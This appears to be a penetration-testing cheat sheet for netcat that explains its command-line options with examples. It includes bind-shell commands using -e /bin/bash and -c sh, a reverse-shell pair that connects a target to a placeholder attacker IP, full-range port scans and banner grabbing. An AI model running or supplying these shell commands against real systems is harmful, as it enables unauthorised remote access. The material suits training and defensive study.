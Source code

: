 # Netcat (often abbreviated as nc) is a versatile networking utility used for a variety of tasks related to network connections, such as debugging, testing, and creating network applications. It's sometimes referred to as the "Swiss Army knife" of networking because of its flexibility and range of uses. Netcat can work with both TCP and UDP protocols, making it useful for a wide variety of network-related activities.

# 1.nc -l – Listen mode
This tells Netcat to listen on a specified port, which is useful when setting up a listener for reverse shells or waiting for incoming connections.
Example:

nc -l 4444
# 2.nc -v – Verbose output
Provides additional details about the connection process, useful for debugging or gathering more information.
Example:

nc -v -l 4444
# 3.nc -n – Numeric-only IP addresses
Avoids DNS resolution and uses numeric IP addresses only, which can be faster and more useful in certain network penetration tests.
Example:

nc -n 192.168.1.1 80
# 4.nc -z – Zero I/O mode (scan for open ports)
Useful for scanning a range of ports without sending any data, helping you identify open ports on a target machine.
Example:

nc -zv 192.168.1.1 1-1000
# 5.nc -w – Timeout
Specifies a timeout (in seconds) for the connection. This is useful for controlling how long Netcat waits for a response before timing out.
Example:

nc -w 5 192.168.1.1 80
# 6.nc -p – Local port
Specifies the local port to be used when connecting (helpful when binding to a specific port).
Example:

nc -p 12345 192.168.1.1 80
# 7.nc -e – Execute program (e.g., for reverse shells)
Used to execute a program after establishing a connection. This is often used in reverse shell scenarios where you need to spawn a shell on the target machine.
Example (spawn a shell on the target machine after connecting to a listener):

nc -l -p 4444 -e /bin/bash
# 8.nc -c – Use a command (works in some versions of Netcat)
Executes a specified command upon a connection. Not as widely used as -e, but it's an alternative.
Example:

nc -l 4444 -c 'sh'
# 9.nc -u – UDP mode
Switches Netcat to use UDP instead of TCP. This can be useful for testing UDP services or performing scans.
Example:

nc -u -l 12345
# 10.nc -s – Source address
Specifies the source address when binding to a local machine with multiple network interfaces.
Example:

nc -s 192.168.1.100 -l 1234
# 11. -o – Output to file
This allows you to redirect the data from a connection into a file.
Example:

nc -v -l 1234 -o output.txt
# 12.nc -T – Set TCP MSS (Maximum Segment Size)
Allows you to set the MSS option for TCP connections, useful in certain networking scenarios to adjust packet size.
Example:

nc -T 1460 192.168.1.1 80
# 13.nc -k – Keep listening after connection is closed
This option makes Netcat continue listening for incoming connections after a client disconnects. It's useful for long-running listeners in pen testing.
Example:
bash
Copy code
nc -lk 4444
# 14. nc -i – Interval for sending data
Specifies the interval in seconds between sending data. It’s useful when performing certain types of banner grabbing or brute-force attacks.
Example:

echo -n "GET / HTTP/1.1" | nc -i 2 192.168.1.1 80
# ######### Example Usage for Penetration Testing:######################

# Banner Grabbing:

nc -v 192.168.1.1 80
Banner grabbing is a technique used to gather information about a network service running on a remote machine, typically by connecting to open ports and retrieving the "banner" that the service displays. Banners often contain useful information about the software version, the operating system, or other metadata that can help an attacker identify potential vulnerabilities or plan further attacks.

How Banner Grabbing Works
When a service (like a web server, FTP server, or SSH daemon) starts up, it often sends an introductory message or "banner" to anyone that connects to it. This banner might include the service's name, version number, and sometimes additional information about the system hosting the service.
For example:
A web server might return something like Apache/2.4.41 (Ubuntu).
An FTP server might return 220 FTP Server Ready.

# Reverse Shell (attacker machine):

nc -lvp 4444
# Reverse Shell (target machine):


nc -e /bin/bash <attacker_ip> 4444

# Port Scanning:

nc -zv 192.168.1.1 1-65535

# UDP Testing:

nc -u -l 12345
